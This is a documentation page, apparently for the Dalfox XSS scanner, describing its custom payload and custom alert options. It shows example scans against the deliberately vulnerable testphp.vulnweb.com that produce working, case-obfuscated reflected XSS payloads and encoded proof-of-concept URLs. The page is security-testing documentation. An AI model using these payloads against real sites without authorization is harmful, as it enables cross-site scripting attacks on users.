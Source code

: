 ```yaml
---
title: Custom payload and Custom alert
permalink: /docs/custom-payload/
nav_order: 5
toc: true
layout: page
---
```


## Custom payload
```
dalfox url --custom-payload payload-list.txt
```

## Custom alert 
### Options
* `--custom-alert-value` = e.g (`XSS` / `1` / `document.location` )
* `--custom-alert-type`= e.g (`str` / `none`)

none or empty: write only alert-value (e.g --custom-alert-value=130 / --custom-alert-value=location.href)
str: `"PAYLOAD"` / `'PAYLOAD'`

### Case of study
default (no option)
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>
    48 line:  yntax to use near '=</ScriPt><sCripT class=dalfox>alert(1)</sCriPt>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3C%2FScriPt%3E%3CsCripT+class%3Ddalfox%3Ealert%281%29%3C%2FsCriPt%3E
```

used options - only value
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337
...snip...
[V] Triggered XSS Payload (found DOM Object): cat='><sVg/onload=alert(1337) class=dalfox>
    48 line:  syntax to use near ''><sVg/onload=alert(1337) class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%27%3E%3CsVg%2Fonload%3Dalert%281337%29+class%3Ddalfox%3E
```

used options - with type=str
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str
...snip...
[V] Triggered XSS Payload (found DOM Object): cat=<svG/onload=confirm("1337") class=dalfox>
    48 line:  yntax to use near '=<svG/onload=confirm("1337") class=dalfox>' at line 1
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%3CsvG%2Fonload%3Dconfirm%28%221337%22%29+class%3Ddalfox%3E
```

used options - with type=none,str
```
dalfox url http://testphp.vulnweb.com/listproducts.php\?artist\=123 --custom-alert-value 1337 --custom-alert-type str,int
...snip...
[V] Triggered XSS Payload (found DOM Object): cat="><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE>
    48 line:  syntax to use near '"><iFrAme/src=jaVascRipt:alert('1337') class=dalfox></iFramE
[POC][V][GET] http://testphp.vulnweb.com/listproducts.php?artist=123&cat=%22%3E%3CiFrAme%2Fsrc%3DjaVascRipt%3Aalert%28%271337%27%29+class%3Ddalfox%3E%3C%2FiFramE%3E
```
